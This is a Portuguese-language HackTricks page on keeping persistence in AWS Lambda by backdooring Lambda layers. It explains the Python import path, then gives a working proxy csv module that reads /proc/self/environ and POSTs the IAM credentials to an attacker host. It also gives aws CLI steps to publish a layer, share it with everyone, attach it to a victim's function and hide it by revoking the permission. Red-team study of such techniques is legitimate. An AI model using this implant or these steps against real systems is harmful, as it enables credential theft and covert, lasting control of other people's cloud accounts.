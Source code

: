 # AWS - Persistência de Camadas Lambda

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Camadas Lambda

Uma camada Lambda é um arquivo .zip que **pode conter código adicional** ou outro conteúdo. Uma camada pode conter bibliotecas, um [tempo de execução personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dados ou arquivos de configuração.

É possível incluir até **cinco camadas por função**. Quando você inclui uma camada em uma função, o **conteúdo é extraído para o diretório `/opt`** no ambiente de execução.

Por **padrão**, as **camadas** que você cria são **privadas** para sua conta AWS. Você pode optar por **compartilhar** uma camada com outras contas ou **tornar** a camada **pública**. Se suas funções consomem uma camada que uma conta diferente publicou, suas funções podem **continuar a usar a versão da camada após ela ter sido excluída, ou após a revogação de sua permissão para acessar a camada**. No entanto, você não pode criar uma nova função ou atualizar funções usando uma versão de camada excluída.

Funções implantadas como uma imagem de contêiner não usam camadas. Em vez disso, você empacota seu tempo de execução preferido, bibliotecas e outras dependências na imagem do contêiner ao construir a imagem.

### Caminho de carregamento Python

O caminho de carregamento que o Python usará no lambda é o seguinte:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifique como o **segundo** e terceiro **posições** são ocupadas por diretórios onde as **camadas lambda** descompactam seus arquivos: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se um atacante conseguir **inserir um backdoor** em uma **camada lambda** usada ou **adicionar uma** que executará **código arbitrário quando uma biblioteca comum for carregada**, ele poderá executar código malicioso a cada invocação da lambda.
{% endhint %}

Portanto, os requisitos são:

* **Verificar as bibliotecas** que são **carregadas** pelo código da vítima
* Criar uma **biblioteca proxy com camadas lambda** que irá **executar código personalizado** e **carregar a biblioteca original**.

### Bibliotecas pré-carregadas

{% hint style="warning" %}
Ao abusar dessa técnica, encontrei uma dificuldade: Algumas bibliotecas são **já carregadas** em tempo de execução do python quando seu código é executado. Eu esperava encontrar coisas como `os` ou `sys`, mas **até a biblioteca `json` estava carregada**.\
Para abusar dessa técnica de persistência, o código precisa **carregar uma nova biblioteca que não esteja carregada** quando o código é executado.
{% endhint %}

Com um código python como este, é possível obter a **lista de bibliotecas que estão pré-carregadas** dentro do tempo de execução do python na lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E esta é a **lista** (verifique se bibliotecas como `os` ou `json` já estão lá)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E esta é a lista de **bibliotecas** que o **lambda inclui instaladas por padrão**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3]

### Backdooring da Camada Lambda

Neste exemplo, vamos supor que o código alvo está importando **`csv`**. Vamos **inserir um backdoor na importação da biblioteca `csv`**.

Para fazer isso, vamos **criar o diretório csv** com o arquivo **`__init__.py`** nele, em um caminho que é carregado pelo lambda: **`/opt/python/lib/python3.9/site-packages`**\
Então, quando o lambda for executado e tentar carregar o **csv**, nosso arquivo **`__init__.py` será carregado e executado**.\
Este arquivo deve:

* Executar nossa carga útil
* Carregar a biblioteca csv original

Podemos fazer ambos com:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Em seguida, crie um arquivo zip com este código no caminho **`python/lib/python3.9/site-packages/__init__.py`** e adicione-o como uma camada lambda.

Você pode encontrar este código em [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

O payload integrado irá **enviar as credenciais IAM para um servidor NA PRIMEIRA VEZ que for invocado ou APÓS um reset do contêiner lambda** (mudança de código ou lambda fria), mas **outras técnicas** como as seguintes também podem ser integradas:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Camadas Externas

Observe que é possível usar **camadas lambda de contas externas**. Além disso, uma lambda pode usar uma camada de uma conta externa mesmo que não tenha permissões.\
Também observe que o **número máximo de camadas que uma lambda pode ter é 5**.

Portanto, para melhorar a versatilidade dessa técnica, um atacante poderia:

* Inserir um backdoor em uma camada existente do usuário (nada é externo)
* **Criar** uma **camada** em **sua conta**, dar acesso da **conta da vítima** para usar a camada, **configurar** a **camada** na Lambda da vítima e **remover a permissão**.
* A **Lambda** ainda poderá **usar a camada** e a **vítima não** terá uma maneira fácil de **baixar o código das camadas** (exceto obtendo um shell reverso dentro da lambda)
* A vítima **não verá camadas externas** usadas com **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
